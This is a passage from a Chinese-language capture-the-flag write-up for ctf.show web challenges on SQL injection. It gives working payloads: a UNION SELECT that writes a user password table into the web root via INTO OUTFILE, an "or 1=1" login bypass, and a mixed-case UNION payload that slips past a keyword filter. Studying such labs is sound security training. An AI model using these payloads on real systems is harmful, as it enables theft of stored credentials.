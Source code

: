  方法二:利用读写文件写入网站根目录
http://32a74685-8c52-4756-a326-69a2eb56e70f.challenge.ctf.show/api/v5.php?id=1' union select 1,password from ctfshow_user5 into outfile '/var/www/html/1.txt'--+&page=1&limit=10
之后访问http://32a74685-8c52-4756-a326-69a2eb56e70f.challenge.ctf.show/1.txt



#### **过滤注入**（对传入参数进行过滤）

#### web176

```
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

方法一：万能钥匙

```
1' or 1=1--+
```

![](../assets/image-20250207173909940.png)

能找到flag

方法二:大小写绕过

```
1' uNion sElect 1,2,password from ctfshow_user --+
```


